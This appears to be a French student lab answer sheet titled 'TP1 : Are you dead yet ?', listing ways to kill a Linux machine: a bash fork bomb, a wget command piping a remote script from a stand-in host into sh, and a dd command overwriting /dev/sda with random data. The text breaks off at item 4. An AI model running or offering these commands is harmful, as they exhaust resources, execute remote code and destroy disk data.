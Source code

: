# TP1 : Are you dead yet ?

1 : 

- avec cette commande :
    ```:(){ :|: & };:```

 Il s'agit d'une fonction bash simple qui crée des copies de lui-même qui à son tour crée un autre ensemble de copies de lui-même.

2 : 

- en mettant une NAT et en installant ensuite un scipt malveillant.
installer le script avec cette commande :
    ```wget http://example.com/something -O – | sh —```

3 :

- avec cette commande :
    ```dd if=/dev/random of=/dev/sda```

cette commande va écrire sur le disque dur plein de déchets aléatoirement.

4 :